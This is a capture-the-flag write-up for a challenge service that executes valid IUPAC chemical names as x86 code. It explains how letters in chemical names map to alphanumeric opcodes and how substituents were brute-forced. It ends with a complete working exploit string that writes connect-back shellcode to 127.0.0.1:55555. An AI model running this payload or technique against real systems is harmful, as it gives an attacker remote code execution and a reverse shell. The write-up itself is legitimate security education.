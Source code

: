 ## TNT - Misc 500

### Overview

This challenge is a service accepts a string, uses the [opsin library](https://github.com/metamolecular/opsin) to check if it's a valid IUPAC organic chemical name (for example, the string `2,4,6-trinitrotoluene`), and if so executes the string as x86 code.

### Solution

The string is placed in RWX memory at 0x2468000; my solution was to come up with a payload (that was also a valid chemical name) that could output arbitrary bytes to 0x2469000. This way, when the payload was done running, it would fall through to my arbitrary bytes, which can be connect-back shellcode.

What kind of x86 instructions do we have available to us within a chemical name? The uppercase letters are all single-byte instructions that cover most of the `inc/dec/push/pop r32` instructions. `h` and `j` are `push imm32` and `push imm8`, which are useful even though we won't be able to control the immediate operands fully—sadly, no valid chemical has `h\xcd\x80\x90\x90` as a substring :P. Three additional instructions I used were `xor [ebp+0x4e], eax` (which is `1EN`) for writing to memory, and `sub eax, imm32` (`-xxxx`) and `xor eax, imm32` (`5xxx`) for manipulating `eax`.

CTF tip: [ref.x86asm.net](http://ref.x86asm.net/coder32.html) has a good table for figuring this kind of stuff out; it's easy to check for instructions with alphanumeric opcodes, and specifically ones that don't take any `r/m32` operands and thus are easy to use inside a valid chemical name without worrying about segfaults.

How do we generate a giant chemical name that allows for sticking in lots of instructions? My chemical name was roughly in the form of `[foo-bar-hect1ene]-[spam-eggs-hect1ene]-hectane`. This example means a "hectane" molecule with a "foo bar hect1ene" and a "spam eggs hect1ene" attached to it; these in turn mean "hect1ene" molecules with stuff attached to them. The brackets in the name work like parenthesis, and both hectane and hect1ene are huge molecules that allow me to attach lots of things. I can choose "foo" and "bar" from [various chemistry thingies](https://github.com/metamolecular/opsin/blob/master/opsin-core/src/main/resources/uk/ac/cam/ch/wwmm/opsin/resources), but with lots of restrictions. I basically just brute-forced strings from those XML files to find thingies (technically called [substituents](https://en.wikipedia.org/wiki/Substituent)) that I could use in basically any order I wanted to without the opsin library rejecting my chemical name.

My resulting payload was ~3000 characters, consisting mostly of a couple dozen hect1ene-based groups, e.g. `[RheNA-OXA-    5cbz -iodo-iodo-fmoc-iodo-fmoc-bara-cura-thia-fmoc-iodo-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]`. As shown, I abused the fact that the opsin library is case-insensitive and premissive about extra whitespace. Ignoring the extraneous instructions, the disassembly of this string is `push 0x2d414e65; pop eax; xor eax,0x207a6263; sub eax,0x6f646f69; <~10 more different 'sub eax' instructions>; dec eax; dec eax; ...; xor [ebp+0x4e], eax`. Via choosing different substituents, I could pop/xor/sub eax with different constants to roughly set it, and then `dec eax` to get it exactly right before writing it out with `xor [ebp+0x4e], eax`. Of course, `ebp` needs to be set properly beforhand, which I did by controlling `eax` as above and then just `push eax; pop ebp`ing (`[PROPIO]-` is a valid component of a chemical name that will do that). By repeating this process with `inc ebp`s in between (which is just `E`), my chemical name writes out connect-back shellcode to immediately after itself in memory.

The attached script `make_name.py` will generate an exploit string, and has some comments explaining more details. A working example that connects back to 127.0.0.1:55555 is
```
[ThiYl-OXA-    5cbz -soda-tms -oxa -tms -fmoc-keto-cbz -keto-osma-fmoc-tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   HECTANE]-    [PROPIO]-    [RheNA-OXA-    5cbz -iodo-iodo-fmoc-iodo-fmoc-bara-cura-thia-fmoc-iodo-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA OXA-    5fmoc-fmoc-cera-ioda-rada-amyl-iodo-oxa-PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThorA OXA-    5fmoc-arso-sila-cbz -thia-cbz -cbz -cbz -oxyl-tms -iodo-soda-cura-amyl-cbz -oxyl-oxyl-keto-osma-cbz -tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RheNA OXA-    5fmoc-tms -thia-amyl-bora-arsa-thia-fmoc-oxo PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThiyL OXA-    5fmoc-oxa -boc -oxyl-oxa -oxa -oxa -boc -oxa -sila-thia-osma-tms PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThoRA OXA-    5fmoc-iodo-oxyl-cbz -erba-ioda-aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [5oxyl-cura-amyl-amyl-bora-aura-cera-amyl-iodo-arso-iodo-fmoc-fmoc-oxo -oxa PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThULa-OXA-    5erba-arsa-arsa-amyl-cera-bora-thia-thia-rada-amyl-cbz -aura-cera-cera-cera-bara-boc-PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThIYl OXA-    5tms -aza -tms -fmoc-cbz -arso-arso-bora-cbz-PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA-OXA-    5tms -bara-cbz -fmoc-cbz -iodo-aza -oxa -cura-oxa -bara-amyl-amyl-cera-rada-cbz-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThuLA OXA-    5fmoc-oxyl-oxyl-iodo-rada-tms -oxyl-aza -cbz-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThIYL-OXA-    5tms -erba-thia-erba-fmoc-bora-aza -bora-cera-erba-aza PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RhOdA OXA-    5boc -oxyl-oxo -ioda-aza -aza -soda-thia-ioda-oxa -oxa -aza -oxa -aza -aza-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThORA-OXA-    5amyl-amyl-amyl-oxo -boc -cera-amyl-rada-fmoc-keto-cbz PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [5arso-tms -amyl-erba-tms -bora-tms -thia-tms -fmoc-tms-PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RheNa OXA-    5fmoc-oxyl-oxyl-ioda-bara-tms -thia-thia-rada-tms -tms -thia-tms -inda-soda-aza PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [RhenA-OXA-    5boc -thia-sila-sila-fmoc-thia-tms -tms -tms NEPTUNA-hect1ENE]-   hECTENE-    [RhOda OXA-    5boc -cbz -cbz -amyl-cbz -amyl-cbz -arso-amyl-arsa-fmoc-amyl-aura-bara-aza-NEPTUNA-hect1ENE]-   hECTENE-    [ThorA OXA-    5cbz -amyl-arso-thia-keto-iodo-iodo-boc PHOSPha   PHOSPha   PHOSPha   PHOSPha   NEPTUNA-hect1ENE]-   hECTENE-    [ThiyL OXA-    5amyl-erba-ioda-osma-fmoc-boc -aza -oxa -aza -aza -oxa PHOSPha   PHOSPha   PHOSPha   PHOSPha   HECTENE]-    HECTANE
```
